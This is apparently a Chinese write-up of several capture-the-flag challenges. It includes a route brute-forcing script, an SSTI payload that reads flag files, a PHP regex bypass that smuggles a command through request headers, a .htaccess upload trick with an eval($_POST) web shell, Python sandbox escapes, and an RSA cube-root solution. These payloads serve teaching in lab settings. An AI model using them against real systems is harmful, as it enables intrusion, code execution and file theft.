


web
ezpython
f12的得到路由/s3c0nd，提示fuzz数字，且是6位，ai写代码爆破就行
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
|
import requests
import concurrent.futures
# ===== 目标配置 =====
TARGET = "http://101.200.39.193:32969" # 目标URL
THREADS = 50 # 并发线程数（可根据网络情况调整）
TIMEOUT = 5 # 请求超时(秒)
START = 100000 # 起始数字
END = 999999 # 结束数字
# ===== 有效性验证 =====
def check_route(number):
try:
url = f"{TARGET}/{number}"
resp = requests.get(url, timeout=TIMEOUT)
# 有效性判断逻辑
if resp.status_code == 200:
# 可以根据实际情况调整过滤条件
if len(resp.text) > 100 and "404" not in resp.text:
return True, number, len(resp.text)
except Exception as e:
pass
return False, None, 0
# ===== 主爆破逻辑 =====
found_routes = []
def brute_worker(number):
global found_routes
if found_routes: # 如果已经找到就跳过
return
valid, num, length = check_route(number)
if valid:
found_routes.append((num, length))
print(f"\033[32m[+] 发现有效路由: /{num} (响应长度: {length})\033[0m")
# ===== 执行爆破 =====
if __name__ == "__main__":
print(f"开始路由爆破，目标为6位数字组合({START}-{END})...")
with concurrent.futures.ThreadPoolExecutor(max_workers=THREADS) as executor:
# 创建数字范围列表
numbers = range(START, END + 1)
# 提交任务
futures = [executor.submit(brute_worker, num) for num in numbers]
# 等待第一个结果完成
for future in concurrent.futures.as_completed(futures):
if found_routes:
executor.shutdown(cancel_futures=True)
break
# 打印最终结果
print("\n=== 爆破结果 ===")
if found_routes:
for i, (route, length) in enumerate(found_routes):
print(f"路由{i + 1}: {TARGET}/{route} (响应长度: {length})")
else:
print("未发现有效路由")
|
得到114514，提示有参数，直接arjun爆破

然后就是打ssti就行{{lipsum.__globals__.os.popen('cat /f*').read()}}(复现环境flag在env里面)
ezbypass
1
2
3
4
5
6
7
8
9
10
11
12
|
<?php
$test=$_GET['test'];
if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\|implode|phpinfo|localeconv|pos|current|print|var|dump|getallheaders|get|defined|str|split|spl|autoload|extensions|eval|phpversion|floor|sqrt|tan|cosh|sinh|ceil|chr|dir|getcwd|getallheaders|end|next|prev|reset|each|pos|current|array|reverse|pop|rand|flip|flip|rand|content|session_id|session_start|echo|readfile|highlight|show|source|file|assert/i", $test)){
eval($test);
}
else{
echo "oh nonono hacker!";
}
highlight_file(__FILE__);
|
这里显然漏掉了system与apache_request_headers()，这个**apache_request_headers()**是getallheaders的别名，然后在TGCTF有个解是system(implode(apache_request_headers()));乍一看可以用，仔细一看发现implode过滤了，但是join是implode的别名可以替代，所以最后的payload是(注意命令前要分号，然后要删除多余的请求头，不然可能不好执行)
1
2
3
4
|
GET /?test=system(join(apache_request_headers())); HTTP/1.1
Host: x.x.x.x
cmd: ;echo$IFS`cat /flag`>1.txt;
|
复现以为题目环境有点问题，ls /有结果，flag没有。

但是发现flag环境里面有

考点2：利用|构造过滤的关键词
这里发现有个|，这里可以用
php 7的eval的第一个小特性，如果输入的是一个常量，那么默认解析为字符串。 所以这个就成了位操作 ：
1
|
(systee|systel)((anv|dnv));
|
但是这里过滤了/,拿flag还是有难度，此文通过这个方法设置flag路径然后include拿到flag
关于NetDreamCTF2025的那道ezbypass题
ezupload
解法一：二次文件名过滤+htaccess图片马+内容过滤？
我们发现是apache环境，可以立马想到肯定是围绕这个.htaccess打，简单尝试发现过滤了php与.htaccess,但是尝试发现，输入1.htacces2htaccess返回1.2，所以发现后端是删除这两后缀，直接嵌套一层1.htacceshtaccesss，发现还是发现返回1.，那再嵌套一层。
打.htahtacceshtaccesssccess，发现返回.htaccess!

那接下来就是打htaccess图片马就好了
1
2
3
|
<FilesMatch "1.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
|
1.jpg打(过滤了？所以只能用标签)
1
|
<script language='php'>eval($_POST[1])</script>
|
但是发现有disable_function,而且蚁剑绕不过。那就直接用php的函数了
<script language='php'>print_r(scandir('/'))</script>

然后就行show_source(’/flag’)就行了（复现的话/flag没flag，环境有，直接查phpinfo就有了）
（也可以不打图片马直接打1.ppphphpphphp，只不过这个比较难构造）
解法二：直接用htaccess包含/flag
这样就是当前文件所有jpg都当作php处理，即都会包含/flag
1
2
|
AddType application/x-httpd-php .jpg
php_value auto_append_file "/flag"
|

这题与2025黄河流域那道文件上传类似，不过那个是.user.ini包含
1
2
|
auto_prepend_file = /flag
auto_append_file = /flag
|
Pickle♥dill
考点：斜体字绕过
1
|
__impºrt__('os').pºpen('cat app.py').reªd()
|
I_dont_like_sandbox
1
|
from os import system as __getattr__;from __main__ import env
|
1
2
3
|
__getattr__是 Python 自带的一个方法，当访问一个对象不存在的对象属性的时候就会被调用，在这里我们用 from os import system as __getattr__提前把 __getattr__改成了 system 函数
接着，从 from __main__ import env，我们正在运行的程序会被 Python 认为是__main__模块，而 env 是这个模块里面不存在的一个属性，所以__getattr__会被调用，而我们的属性名为 env，所以本来是__getattr__("env") 会被拼接成 system("env")，达到了获得 shell 的目的
|

1
|
from os import system as __getattr__;from __main__ import sh //也行
|
这题类似这个题ADCTF2024 个人 Writeup | GamerNoTitle
I_like_sandbox
1
2
3
4
|
pydoc.pipepager(text, cmd)
text：要显示的文本内容
cmd：系统命令（如 "cat"、"less"）
关键点：它的第二个参数 cmd 会直接传递给 os.popen() 或 subprocess.Popen，因此可以执行任意命令！
|

misc
签到
base64解码后到阿里云网站运维检测平台找txt记录就行

cryto
EzRSA
1
2
3
4
5
6
7
8
9
10
11
12
13
|
import gmpy2
from Crypto.Util.number import long_to_bytes
n = 3256593900815599638610948588846270419272266309072355018531019815816383416972716648196614202756266923662468043040766972587895880348728177684427108179441398076920699534139836200520410133083399544975367893285080239622582380507397956076038256757810824984700446326253944197017126171652309637891515864542581815539
e = 3
c = 1668144786169714702301094076704686642891065952249900945234348491495868262367689770718451252978033214169821458376529832891775500377565608075759008139982766645172498702491199793075638838575243018129218596030822468832530007275522627172632933
# 直接对 c 开立方（因为 e=3 很小，可能 m^3 < n）
m = gmpy2.iroot(c, 3)[0]
# 转换为字节
flag = long_to_bytes(m)
print(flag.decode())
|